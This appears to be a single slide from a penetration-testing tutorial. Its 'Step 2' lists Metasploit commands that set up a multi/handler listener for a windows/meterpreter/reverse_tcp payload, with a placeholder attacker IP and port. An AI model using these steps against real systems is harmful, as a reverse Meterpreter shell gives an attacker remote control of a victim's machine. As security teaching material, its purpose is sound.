

# STEP 2: TO CREATE THE HANDLER
msf# use exploit/multi/handler
msf# show options
#set LHOST YourIP
#set LPORT 4321
#set Payload windows/meterpreter/reverse_tcp
#exploit